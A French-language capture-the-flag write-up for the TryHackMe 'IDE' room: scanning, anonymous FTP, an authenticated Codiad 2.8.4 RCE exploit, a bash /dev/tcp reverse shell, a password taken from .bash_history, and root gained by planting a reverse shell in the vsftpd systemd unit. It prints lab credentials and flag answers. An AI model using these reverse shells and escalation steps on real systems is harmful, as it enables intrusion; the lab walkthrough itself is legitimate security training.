

# IDE #

## Task 1 Flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c 'echo "10.10.181.144 ide.thm" >> /etc/hosts' 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A ide.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-23 17:56 CEST
Nmap scan report for ide.thm (10.10.181.144)
Host is up (0.032s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/23%OT=21%CT=1%CU=34747%PV=Y%DS=2%DC=T%G=Y%TM=617432
OS:6E%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST
OS:11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   31.86 ms 10.9.0.1
2   32.00 ms ide.thm (10.10.181.144)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 445.18 seconds
```

Nmap détecte plusieurs services qui sont : 
Le service FTP sur le port 21.  
Le service SSH sur le port 22.  
Le service HTTP sur le port 80 et 62337.   

```bash
Connected to ide.thm.
220 (vsFTPd 3.0.3)
Name (ide.thm:tim): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 .
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 ..
drwxr-xr-x    2 0        0            4096 Jun 18 06:11 ...
226 Directory send OK.

ftp> cd ...
250 Directory successfully changed.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18 06:11 -
drwxr-xr-x    2 0        0            4096 Jun 18 06:11 .
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 ..
226 Directory send OK.

ftp> get "-"
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (69.2305 kB/s)

tim@kali:~/Bureau/tryhackme/write-up$ cp '-' test
tim@kali:~/Bureau/tryhackme/write-up$ cat test
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

On arrive à se connecter en mode anonymous sur le service FTP.
Dans le service Ftp on voir un répertoire ... 
Dans le répertoire ... on récupère le fichier -  
On renomme ou copie le fichier.  
En lisant le fichier il y a un message qui nous dit le mot de passe à été réinitialisé.    
Les identifiants sont ceux par défaut.   
Il y a une image de fichier quelque part.   

D'après nmap le titre du site sur le port 80 est la page par défaut d'apache.   

D'après nmap le titre du site sur le port 62337 est Codiad 2.8.4.   



On se connecte avec le nom d'utilisateur john et le mot de passe password.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit codiad 2.8.4
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Codiad 2.8.4 - Remote Code Execution (Authenticated)                                                                                                                                                        | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)                                                                                                                                                    | multiple/webapps/49902.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (3)                                                                                                                                                    | multiple/webapps/49907.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

tim@kali:~/Bureau/tryhackme/write-up$ cp /usr/share/exploitdb/exploits/multiple/webapps/49705.py 49705.py   

```

On trouve un exploit pour Codiad 2.8.4.  

```bash

tim@kali:~/Bureau/tryhackme/write-up$ python 49705.py http://ide.thm:62337/ john password 10.9.228.66 1234 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.9.228.66/1235 0>&1 2>&1"' | nc -lnvp 1234
nc -lnvp 1235
[+] Please confirm that you have done the two command above [y/n]
[Y/n] Y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...

tim@kali:~/Bureau/tryhackme/write-up$ echo 'bash -c "bash -i >/dev/tcp/10.9.228.66/1235 0>&1 2>&1"' | nc -lnvp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1235
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
```

On lance l'exploit.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1235
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 10.10.181.144.
Ncat: Connection from 10.10.181.144:41680.
bash: cannot set terminal process group (943): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ide:/var/www/html/codiad/components/filemanager$ 
www-data@ide:/home$ ls
ls
drac
www-data@ide:/home$ ls drac	
ls drac/
user.txt
www-data@ide:/home$ cat ./drac/user.txt
cat ./drac/user.txt
cat: ./drac/user.txt: Permission denied

```

On obtient un shell on essai de lire le fichier user.txt mais on a pas les autorisations.  

```bash
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

**user.txt**

Dans le fichier .bash_history on trouve un mot de passe pour mysql.   

```bash
www-data@ide:/home/drac$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ide:/home/drac$ su drac
su drac
Password: Th3dRaCULa1sR3aL                              

drac@ide:~$ cat user.txt
cat user.txt
02930d21a8eb009f6d26361b2d24a466 
```

On essai de se connecter avec le mot de passe et ça fonctionne.   
On lit le fichier user.txt et on a le flag.   
Le flag est : 02930d21a8eb009f6d26361b2d24a466  

**root.txt**

```bash
sudo -l
[sudo] password for drac: Th3dRaCULa1sR3aL

Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

On peut redémarrer le service vsftpd avec sudo.  

```bash
drac@ide:~$ systemctl status vsftpd
systemctl status vsftpd
● vsftpd.service - vsftpd FTP server
   Loaded: loaded (/lib/systemd/system/vsftpd.service; enabled; vendor preset: enabled)
   Active: active (running) since Sat 2021-10-23 15:54:31 UTC; 2h 58min ago
  Process: 830 ExecStartPre=/bin/mkdir -p /var/run/vsftpd/empty (code=exited, status=0/SUCCESS)
 Main PID: 845 (vsftpd)
    Tasks: 1 (limit: 498)
   CGroup: /system.slice/vsftpd.service
           └─845 /usr/sbin/vsftpd /etc/vsftpd.conf

Warning: Journal has been rotated since unit was started. Log output is incomplete or unavailable.

drac@ide:~$ cat /lib/systemd/system/vsftpd.service
cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target

export TERM=xterm
drac@ide:~$ ^Z
[1]+  Stoppé                 nc -lnvp 1235
tim@kali:~/Bureau/tryhackme/write-up$ stty raw -echo; fg
nc -lnvp 1235

drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i &>/dev/tcp/10.9.228.66/1337 <&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target

```

On recherche on se trouve le fichier de configuration. 
On inclut dans le fichier vsftpd.service un reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
```

On écoute sur le port 1337 pour avoir le shell.   

```bash
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.

tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.181.144.
Ncat: Connection from 10.10.181.144:55122.
bash: cannot set terminal process group (4631): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# cat /root/root.txt
cat /root/root.txt
ce258cb16f47f1c66f0b0b77f4e0fb8d

```

On redémare le service vsftpd et on obtient un shell root.   
On lit le fichier le root.txt dans le répertoire root et on a le flag.   
Le flag est : ce258cb16f47f1c66f0b0b77f4e0fb8d  


